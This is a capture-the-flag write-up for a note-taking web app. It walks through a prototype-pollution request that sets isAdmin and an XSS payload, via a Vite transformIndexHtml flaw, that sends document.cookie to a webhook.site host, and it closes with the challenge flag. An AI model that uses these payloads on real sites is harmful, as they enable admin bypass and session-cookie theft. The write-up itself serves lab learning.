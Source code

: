 
# Armoured-notes
## Description

> Can you break my emerging note making app? It is still in beta. I have a feeling that it is not secure enough <br>
> Author - p1r4t3 

## Writeup

On launching the challenge we land at a homepage which has fields for username,password and a note, seems like an ordinary xss?

<hr>

![image](https://github.com/user-attachments/assets/a791a61a-ad4d-433d-9935-7d9f56f89914)

On reading the source provided we get to know that only user with name 'admin' can login with his supersecure password which obviously we can not know as it is a environment variable.

```php
app.post("/create", async (req, res, next) => {
  let obj = duplicate(req.body);

  if (obj.uname === "admin" && obj.pass == process.env. PASSWORD) {
 obj.isAdmin = true; 
 }

  if (obj.isAdmin) {
  const newEntry = req.body;

  try {
  const result = await diaryCollection.insertOne(newEntry); 
  return res.json({ code: result.insertedId }); 
 } catch (err) {
  console.error("Failed to insert entry", err); 
  return res.status(500). json({ code: "err" }); 
 }
 }
  return res.json({ code: "err" });
  });
```

We see that a dangerous duplicate function is being used which copies all properties of request body to another object without checking the keys.
This gives rise to a well known JS vulnerability "Prototype Pollution". Read more about it <a href="https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution">here</a>.

Also on reading the source further we find that before saving the note a special property 'isAdmin' is set to 'True' after which the note gets saved in the database. 
```json
{
"uname":"John",
"pass":"Doe",
"message":"Your note...",
"__proto__": {
        "isAdmin": true
    }
}
```
```bash
curl -H "Content-Type: application/json" -X POST -d '{"uname":"admin","pass":"123","message":"asdf","__proto__": {"isAdmin": "true"}}' http://localhost:3000/create
```

After creating the note we get a specific note id and a link to access the note. Suppose we try our old xss payload and go to http://localhost:3000/post/<:id>

```bash
curl -H "Content-Type: application/json" -X POST -d '{"uname":"admin","pass":"123","message":"<script>alert()</script>","__proto__": {"isAdmin": "true"}}' http://localhost:3000/create
```

On looking further we find a escapeHtml function which doesnot allow any dangerous character to be inserted in the note. So now what?. We look into source futher and we see an interesting function "transformIndexHtml". On reading further about it we can find <a href="https://github.com/vitejs/vite/security/advisories/GHSA-92r3-m2mg-pj97?cve=title"> this </a> . :) Looks like we are done.

Lets give this link to our admin bot :) and get the flag
```bash
?"></script><script>fetch(`https://webhook.site/566eb0b9-796b-48d6-bcd5-fbb9584eee71?${document.cookie}`)</script>
```
```bash
http://localhost:3000/posts/657c83681afbebe2ea01432d/?%22%3E%3C/script%3E%3Cscript%3Efetch(`https://webhook.site/566eb0b9-796b-48d6-bcd5-fbb9584eee71?${document.cookie}`)%3C/script%3E
```
![image](https://github.com/user-attachments/assets/01d28bdd-9471-4d93-9756-37535bc366fc)


## Flag
```bash
flag{pR0707yP3_p0150n1n9_AND_v173j5_5ay_n01c3_99}
```
